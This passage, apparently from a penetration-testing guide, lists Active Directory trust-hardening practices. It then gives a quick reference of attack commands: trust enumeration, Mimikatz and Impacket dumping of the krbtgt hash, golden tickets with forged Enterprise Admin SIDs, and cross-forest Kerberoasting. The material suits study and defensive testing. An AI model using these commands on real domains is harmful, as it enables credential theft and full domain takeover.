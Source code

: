#### Security Best Practices

- **Minimize Trust Relationships**: Only create when absolutely necessary
- **Enable SID Filtering**: Unless selective authentication is required  
- **Separate Administrative Accounts**: Different passwords across forests
- **Regular Trust Audits**: Review and remove unused trusts
- **Monitor Cross-Domain Activity**: Alert on unusual authentication patterns
- **Implement ESAE Model**: Use administrative forests for privileged operations
- **Regular KRBTGT Password Changes**: Invalidates Golden Tickets

---

## Quick Reference

### Trust Discovery Commands

```powershell
# Windows
Get-DomainTrust
Get-ADTrust -Filter *
nltest /domain_trusts

# Linux  
lookupsid.py DOMAIN.LOCAL/USERNAME@<DC_IP>
bloodhound-python -d DOMAIN.LOCAL -dc DC01 -c All -u USERNAME -p PASSWORD
```

### Child → Parent Escalation

```powershell
# Windows (Mimikatz)
mimikatz # lsadump::dcsync /user:CHILD-DOMAIN\krbtgt
mimikatz # kerberos::golden /user:FAKE-USER /domain:CHILD-DOMAIN.LOCAL /sid:<CHILD_SID> /krbtgt:<KRBTGT_HASH> /sids:<EA_SID> /ptt

# Linux (Impacket)
secretsdump.py CHILD-DOMAIN.LOCAL/ADMIN@<DC_IP> -just-dc-user krbtgt
ticketer.py -nthash <KRBTGT_HASH> -domain CHILD-DOMAIN.LOCAL -domain-sid <CHILD_SID> -extra-sid <EA_SID> FAKE-USER
export KRB5CCNAME=FAKE-USER.ccache
```

### Cross-Forest Attacks

```powershell
# Windows
Get-DomainUser -SPN -Domain TRUSTED-DOMAIN.LOCAL
.\Rubeus.exe kerberoast /domain:TRUSTED-DOMAIN.LOCAL /user:TARGET-USER /nowrap
Get-DomainForeignGroupMember -Domain TRUSTED-DOMAIN.LOCAL

# Linux
GetUserSPNs.py -target-domain TRUSTED-DOMAIN.LOCAL CURRENT-DOMAIN.LOCAL/USERNAME
GetUserSPNs.py -request -target-domain TRUSTED-DOMAIN.LOCAL CURRENT-DOMAIN.LOCAL/USERNAME
```
